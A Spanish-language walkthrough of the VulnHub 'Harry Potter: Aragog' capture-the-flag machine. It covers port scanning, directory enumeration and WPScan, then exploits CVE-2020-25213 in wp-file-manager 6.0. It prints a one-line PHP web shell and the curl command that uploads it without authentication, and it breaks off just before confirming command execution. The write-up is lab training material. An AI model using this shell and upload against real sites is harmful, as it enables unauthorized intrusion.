

# Harry Potter - Aragog

[Link to VulnHub](https://www.vulnhub.com/entry/harrypotter-aragog-102,688/)

Aragor es la primera de tres CTFs de la serie de Harry Potter en la cual tienes que encontrar 2 horcruxes (hay un total de 8 horcruxes escondidos a lo largo de las máquinas de la serie) para poder derrotar a Voldemort.

## Escaneo de puertos

Inicialmente tenemos que detectar los todos los puertos abiertos de manera rápida. Para ello hacemos un escaneo de puertos completo (`-p-`) filtrando por los puertos abiertos (`--open`) deshabilitando la resolución DNS (`-n`) y el descubrimiento de hosts (`-Pn`):

```bash
nmap -p- --open -Pn -n -v 10.0.0.100
```

Resultado:

```text
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-18 18:27 CET
Initiating Connect Scan at 18:27
Scanning 10.0.0.100 [65535 ports]
Discovered open port 22/tcp on 10.0.0.100
Discovered open port 80/tcp on 10.0.0.100
Completed Connect Scan at 18:28, 7.03s elapsed (65535 total ports)
Nmap scan report for 10.0.0.100
Host is up (0.0037s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 7.08 seconds
```

Con ese escaneo podemos concluir que tenemos abiertos los puertos 22 (SSH) y 80 (HTTP). Ahora que sabemos qué puertos están abiertos realizamos un escaneo en profundidad para saber qué servicios y versión de los mismos están expuestos en esos puertos (`-sCV`):

```bash
nmap -p22,80 -sCV -Pn -n 10.0.0.100
```

Resultado:

```text
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-18 18:32 CET
Nmap scan report for 10.0.0.100
Host is up (0.0090s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)
|_  256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
```

Mediante esta consulta podemos concluir las versiones y servicios que se están exponiendo en ambos puertos:

* `22/tcp`: **SSH** - OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
* `80/tcp`: **HTTP** - Apache httpd 2.4.38 ((Debian))

## Análisis del servicio HTTP (80/tcp)

### La home (/)

Lo primero que podemos hacer es ir la url de la máquina en el navegador y ver que se está exponiendo miendante el protocolo HTTP:



Viendo el inspector vemos que no podemos obtener ningún tipo de información del código fuente de la página. Parece ser simplemente una imagen codificada directamente en el HTML.

Lo siguiente que podemos hacer es tratar de ver si podemos obtener alguna información sobre las tecnologías usadas para la web (auque viendo el HTML ya podemos deducir que no vamos a poder obtener mucha información de aquí).

Ya que tenemos el navegador abierto podemos usar la extensión de navegador [Wappalizer](https://www.wappalyzer.com/) para ver qué información nos da.


Cómo ya podíamos intuir, no hemos obtenido ninguna información útil que no supiéramos ya del escaneo de puertos.

De forma alternativa podemos usar una herramienta de terminal para obtener más información de la web, por ejemplo la herramienta whatweb:

```bash
whatweb 10.0.0.100
```

Resultado:

```text
http://10.0.0.100 [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.0.0.100]
```

De aquí tampoco podemos obtener información adicional.

A priori no tenemos mucha más información que nos permita tirar del hilo, así que vamos a realizar un descubrimientos de urls a través de un diccionario. Para ello utilizaremos gobuster con un diccionario con rutas típicas de contenido web:

```bash
gobuster dir --url http://10.0.0.100 --wordlist /usr/share/dirbuster/wordlists/directory-list-1.0.txt
```

Resultado:

```text
==============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.0.100
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/01/18 19:18:01 Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 301) [Size: 307] [--> http://10.0.0.100/blog/]
                                                                             
===============================================================
2023/01/18 19:19:01 Finished
===============================================================
```

Como podemos observar del resultado nos ha descubierto una nueva ruta con la que trabajar:

* /blog

### El blog (/blog)

Ahora que tenemos esta nueva ruta vamos a ver qué podemos encontrar allí:


Cómo podemos observar hay recursos de la página que no está cargando correctamente. Estos recursos apuntan a un dominio que nuestra máquina atacante no es capaz de resolver (wordpress.aragog.hogwarts):

```bash
ping -c 1 wordpress.aragog.hogwarts
```

Resultado:

```text
ping: wordpress.aragog.hogwarts: Name or service not known
```

Este problema es muy típico cuando hacemos CTFs. Lo único que tenemos que hacer es agregar ese dominio a nuestro `/etc/hosts`:

```text
10.0.0.100 wordpress.aragog.hogwarts
```

Tras esto, si refrescamos la página ya podremos verla correctamente y los recursos cargarán con normalidad:


Ahora que tenemos la web funcionando correctamente podemos tratar de ver qué tecnologías se están usando, aunque ya podemos hacernos una idea que al menos WordPress se usa simplemente viendo los textos de la página. Al igual que antes, vamos a usar Wappalyzer para ver qué información nos da:


Ahora ya podemos ver un poco más de información como que es un WordPress (que usa PHP), y que tiene una base de datos MySQL.

Para contrastar podemos usar, al igual que antes, la herramienta de terminal whatweb:

```bash
whatweb http://10.0.0.100/blog/
```

Resultado:

```text
http://10.0.0.100/blog/ [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.0.0.100], MetaGenerator[WordPress 5.0.12], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Blog &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[5.0.12]
```

Como podemos observar, nos confirma la información que ya sabíamos por Wappalyzer y, de manera adicional, nos dice que se está usando la versión 5.0.12 de Wordpress.

Ahora que ya sabemos que es un wordpres podemos usar WPScan para tratar de obtener más información sobre la configuración del mismo, principalmente los plugins que tenga instalados:

```bash
wpscan --url http://10.0.0.100/blog --enumerate ap --plugins-detection aggressive --plugins-version-detection aggressive
```

Resultad (relevante):

```text
...

[+] wp-file-manager
 | Location: http://10.0.0.100/blog/wp-content/plugins/wp-file-manager/
 | Last Updated: 2022-12-06T09:20:00.000Z
 | Readme: http://10.0.0.100/blog/wp-content/plugins/wp-file-manager/readme.txt
 | [!] The version is out of date, the latest version is 7.1.7
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.0.0.100/blog/wp-content/plugins/wp-file-manager/, status: 200
 |
 | Version: 6.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.0.0.100/blog/wp-content/plugins/wp-file-manager/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.0.0.100/blog/wp-content/plugins/wp-file-manager/readme.txt

...
```

Si buscamos información sobre la versión 6.0 del plugin wp-file-manager vemos que es bulnerable a *unauthenticated arbitrary file upload* ([CVE-2020-25213](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25213)).

Para explotar esta vulnerabilidad lo primero que tenems que hacer es crear una shell PHP mínima para poder subir a la máquina víctima:

´´´PHP
<?php
  system($_GET['cmd']);
?>
´´´

Una vez tenemos el payload que vamos a subir, mediante curl lo subimos al servidor:

```bash
curl -k -F cmd=upload -F target=l1_ -F debug=1 -F upload[]=@shell.php -X POST http://10.0.0.100/blog/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php
```

Resultado (relevante):

```json
{
  "added": [
    {
      "isowner": false,
      "ts": 1674070403,
      "mime": "text/x-php",
      "read": 1,
      "write": 1,
      "size": "33",
      "hash": "l1_c2hlbGwucGhw",
      "name": "shell.php",
      "phash": "l1_Lw",
      "url": "/blog/wp-content/plugins/wp-file-manager/lib/php/../files/shell.php"
    }
  ],
  ...
}
```

Como podemos observar en el JSON, nos indica dónde se ha subido el fichero que hemos indicado. Ahora sólo tenemos que ir a esa url y comprobar que tenemos ejecución remota de comandos:


